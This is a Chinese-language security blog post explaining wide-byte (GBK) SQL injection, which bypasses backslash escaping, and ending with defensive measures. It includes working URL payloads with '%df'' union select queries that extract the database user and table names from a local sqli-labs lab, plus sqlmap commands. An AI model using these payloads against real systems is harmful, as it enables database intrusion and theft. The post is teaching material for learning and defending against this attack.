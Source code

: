 ```yaml
---
layout: post
title: 1.4.1-SQL注入防御绕过-宽字节注入
categories:
  - - 安全
    - web安全
tags: 
  - web安全
  - sql注入
abbrlink: 2024290485
date: 2018-06-30 00:00:00
description: 宽字节注入原理
---
```


## 01 宽字节注入原理

> 什么是宽字节
> GB2312、GBK、GB8030、BIG5、Shift_JIS等这些都是常说的宽字节，实际为两字节。

站点可能为了防止SQL注入，会加\转义'，最后变成\'  

![](https://raw.githubusercontent.com/tea9/image/master/blog_img/09/01.jpeg)

MySQL在使用GBK编码的时候，会认为两个字符为一个汉字。
使用%df'进行编码，两个字符组合，认为是一个汉字。  
注：前一个Ascii码大于128才能到汉字的范围

![](https://raw.githubusercontent.com/tea9/image/master/blog_img/09/02.jpeg)

## 02 宽字节注入方法

	http://127.0.0.1/sqli-labs/Less-32/?id=%df' union select 1,(select user()),3--+

![](https://raw.githubusercontent.com/tea9/image/master/blog_img/09/03.jpeg)

	http://127.0.0.1/sqli-labs/Less-32/?id=%df' union select 1,(select table_name from information_schema.tables where table_schema=database() limit 0,1),3--+ // 查表

	sqlmap:
	sqlmap -u "http://127.0.0.1/Less-32/?id=1" // 判断id不是注入点 因为被转义

	sqlmap -u "http://127.0.0.1/Less-32/?id=1%df" // 通过宽字节注入

--- 

> 宽字节注入应对策略：
+ 使用utf-8,避免宽字节注入；
ps：不仅在gbk，韩文、日文等等都是宽字节，都有可能存在宽字节注入漏洞。

+ mysql_real_escape_string,mysql_set_charset('gbk',$conn) // 替换 和 编码 两个函数一起使用

+ 可以设置参数，charcater_set_client=binary // 设置mysql的连接参数，使用二进制模式

![](https://raw.githubusercontent.com/tea9/image/master/blog_img/09/04.png)

































